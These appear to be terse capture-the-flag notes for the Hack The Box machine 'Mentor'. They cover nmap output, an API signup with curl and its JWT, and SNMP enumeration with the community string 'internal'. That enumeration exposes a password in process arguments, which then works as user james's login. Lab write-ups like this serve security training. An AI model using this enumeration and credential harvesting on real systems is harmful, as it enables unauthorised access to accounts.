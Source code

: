 
# Nmap
```
Nmap scan report for 10.10.11.193
Host is up (0.058s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 c73bfc3cf9ceee8b4818d5d1af8ec2bb (ECDSA)
|_  256 4440084c0ecbd4f18e7eeda85c68a4f7 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://mentorquotes.htb/
Service Info: Host: mentorquotes.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.56 seconds

```

# Web
page is quote book


# fuzzing

**server-status** -> 403

# api
found api.mentorquotes.htb

has docs run by swagger
create user account
```
curl -X 'POST'   'http://api.mentorquotes.htb/auth/signup'   -H 'accept: application/json'   -H 'Content-Type: application/json'   -d '{
  "email": "simo@root.com",
  "username": "simo12343",
  "password": "password"
}'
```


`{"id":5,"email":"simo@root.com","username":"simo12343"}``

logging in give authorization string 'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InNpbW8xMjM0MyIsImVtYWlsIjoic2ltb0Byb290LmNvbSJ9.VGHOqecfSmgtn7TPuv9gm1WnVJmwnJVBQ1gySpiGwzo' 

alos james is user with james@mentorquotes.htb

having a further scan with nmap finds snmp
using snmpbulkwalk 
`snmpbulkwalk -v2c -c internal 10.10.11.193 | grep login`
```
iso.3.6.1.2.1.25.4.2.1.2.917 = STRING: "systemd-logind"
iso.3.6.1.2.1.25.4.2.1.2.1700 = STRING: "login.sh"
iso.3.6.1.2.1.25.4.2.1.2.2106 = STRING: "login.py"
iso.3.6.1.2.1.25.4.2.1.4.917 = STRING: "/lib/systemd/systemd-logind"
iso.3.6.1.2.1.25.4.2.1.5.1700 = STRING: "/usr/local/bin/login.sh"
iso.3.6.1.2.1.25.4.2.1.5.2106 = STRING: "/usr/local/bin/login.py kj23sadkj123as0-d213"
iso.3.6.1.2.1.25.6.3.1.2.478 = STRING: "login_1:4.8.1-2ubuntu2.1_amd64"

```

what seems to be hard coded creds

testing with login and as james works

